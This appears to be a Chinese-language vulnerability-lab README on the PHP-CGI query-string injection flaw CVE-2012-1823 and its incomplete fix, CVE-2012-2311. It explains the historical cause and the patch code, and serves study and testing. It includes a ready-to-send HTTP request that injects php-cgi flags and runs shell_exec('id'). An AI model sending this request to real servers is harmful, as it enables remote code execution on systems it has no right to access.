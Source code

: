 # PHP-CGI远程代码执行漏洞（CVE-2012-1823）

## 原理

 - 参考文章 http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/
 - 影响版本 php < 5.3.12 or php < 5.4.2

## 测试环境

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip/`可见“Hello php”字样。

访问`http://your-ip/index.php?-s`即爆出源码，说明漏洞存在。发送如下数据包，可见Body中的代码已被执行：

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## 漏洞解读

### PHP SAPI 与运行模式

首先，介绍一下PHP的运行模式。

下载PHP源码，可以看到其中有个目录叫sapi。sapi在PHP中的作用，类似于一个消息的“传递者”，比如我在《[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)》一文中介绍的fpm，他的作用就是接受Web容器通过fastcgi协议封装好的数据，并交给PHP解释器执行。

除了fpm，最常见的sapi应该是用于Apache的mod_php，这个sapi用于php和apache之间的数据交换。

php-cgi也是一个sapi。在远古的时候，web应用的运行方式很简单，web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于bash、perl等语言的web应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装Apache的时候默认有一个cgi-bin目录，最早就是放置这些cgi脚本用的。

但cgi模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于cgi模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了fastcgi，fastcgi进程可以将自己一直运行在后台，并通过fastcgi协议接受数据包，执行后返回结果，但自身并不退出。

php有一个叫php-cgi的sapi，php-cgi有两个功能，一是提供cgi方式的交互，二是提供fastcgi方式的交互。也就说，我们可以像perl一样，让web容器直接fork一个php-cgi进程执行某脚本；也可以在后台运行`php-cgi -b 127.0.0.1:9000`（php-cgi作为fastcgi的管理器），并让web容器用fastcgi协议和9000交互。

那我之前说的fpm又是什么呢？为什么php有两个fastcgi管理器？php确实有两个fastcgi管理器，php-cgi可以以fastcgi模式运行，fpm也是以fastcgi模式运行。但fpm是php在5.3版本以后引入的，是一个更高效的fastcgi管理器，其诸多优点我就不多说了，可以自己去翻翻源码。因为fpm优点更多，所以现在越来越多的web应用使用php-fpm去运行php。

### 历史成因

回到本漏洞。CVE-2012-1823就是php-cgi这个sapi出现的漏洞，我上面介绍了php-cgi提供的两种运行方式：cgi和fastcgi，本漏洞只出现在以cgi模式运行的php中。

这个漏洞简单来说，就是用户请求的querystring被作为了php-cgi的参数，最终导致了一系列结果。

探究一下原理，[RFC3875](http://www.ietf.org/rfc/rfc3875)中规定，当querystring中不包含没有解码的`=`号的情况下，要将querystring作为cgi的参数传入。所以，Apache服务器按要求实现了这个功能。

但PHP并没有注意到RFC的这一个规则，也许是曾经注意并处理了，处理方法就是web上下文中不允许传入参数。但在2004年的时候某个开发者发表过这么一段言论：

```
From: Rasmus Lerdorf <rasmus <at> lerdorf.com>
Subject: [PHP-DEV] php-cgi command line switch memory check
Newsgroups: gmane.comp.php.devel
Date: 2004-02-04 23:26:41 GMT (7 years, 49 weeks, 3 days, 20 hours and 39 minutes ago)
 
In our SAPI cgi we have a check along these lines:
 
    if (getenv("SERVER_SOFTWARE")
        || getenv("SERVER_NAME")
        || getenv("GATEWAY_INTERFACE")
        || getenv("REQUEST_METHOD")) {
        cgi = 1;
    }
 
    if(!cgi) getopt(...)
 
As in, we do not parse command line args for the cgi binary if we are 
running in a web context.  At the same time our regression testing system 
tries to use the cgi binary and it sets these variables in order to 
properly test GET/POST requests.  From the regression testing system we 
use -d extensively to override ini settings to make sure our test 
environment is sane.  Of course these two ideas conflict, so currently our 
regression testing is somewhat broken.  We haven't noticed because we 
don't have many tests that have GET/POST data and we rarely build the cgi 
binary.
 
The point of the question here is if anybody remembers why we decided not 
to parse command line args for the cgi version?  I could easily see it 
being useful to be able to write a cgi script like:
 
  #!/usr/local/bin/php-cgi -d include_path=/path
  <?php
      ...
  ?>
 
and have it work both from the command line and from a web context.
 
As far as I can tell this wouldn't conflict with anything, but somebody at 
some point must have had a reason for disallowing this.
 
-Rasmus
```

显然，这位开发者是为了方便使用类似`#!/usr/local/bin/php-cgi -d include_path=/path`的写法来进行测试，认为不应该限制php-cgi接受命令行参数，而且这个功能不和其他代码有任何冲突。

于是，`if(!cgi) getopt(...)`被删掉了。

但显然，根据RFC中对于command line的说明，命令行参数不光可以通过`#!/usr/local/bin/php-cgi -d include_path=/path`的方式传入php-cgi，更可以通过querystring的方式传入。

这就是本漏洞的历史成因。

### 漏洞利用

那么，可控命令行参数，能做些什么事。

通过阅读源码，我发现cgi模式下有如下一些参数可用：

 - `-c` 指定php.ini文件的位置
 - `-n` 不要加载php.ini文件
 - `-d` 指定配置项
 - `-b` 启动fastcgi进程
 - `-s` 显示文件源码
 - `-T` 执行指定次该文件
 - `-h`和`-?` 显示帮助

最简单的利用方式，当然就是`-s`，可以直接显示源码：

![](1.png)

但阅读过我写的fastcgi那篇文章的同学应该很快就想到了一个更好的利用方法：通过使用`-d`指定`auto_prepend_file`来制造任意文件读取漏洞，执行任意代码：

![](2.png)

注意，空格用`+`或`%20`代替，`=`用url编码代替。

### CVE-2012-2311

这个漏洞被爆出来以后，PHP官方对其进行了修补，发布了新版本5.4.2及5.3.12，但这个修复是不完全的，可以被绕过，进而衍生出CVE-2012-2311漏洞。

PHP的修复方法是对`-`进行了检查：

```c
if(query_string = getenv("QUERY_STRING")) {
	decoded_query_string = strdup(query_string);
	php_url_decode(decoded_query_string, strlen(decoded_query_string));
	if(*decoded_query_string == '-' && strchr(decoded_query_string, '=') == NULL) {
		skip_getopt = 1;
	}
	free(decoded_query_string);
}
```

可见，获取querystring后进行解码，如果第一个字符是`-`则设置skip_getopt，也就是不要获取命令行参数。

这个修复方法不安全的地方在于，如果运维对php-cgi进行了一层封装的情况下：

```
#!/bin/sh

exec /usr/local/bin/php-cgi $*
```

通过使用空白符加`-`的方式，也能传入参数。这时候querystring的第一个字符就是空白符而不是`-`了，绕过了上述检查。

于是，php5.4.3和php5.3.13中继续进行修改:

```c
if((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
	/* we've got query string that has no = - apache CGI will pass it to command line */
	unsigned char *p;
	decoded_query_string = strdup(query_string);
	php_url_decode(decoded_query_string, strlen(decoded_query_string));
	for (p = decoded_query_string; *p &&  *p <= ' '; p++) {
		/* skip all leading spaces */
	}
	if(*p == '-') {
		skip_getopt = 1;
	}
	free(decoded_query_string);
}
```

先跳过所有空白符（小于等于空格的所有字符），再判断第一个字符是否是`-`。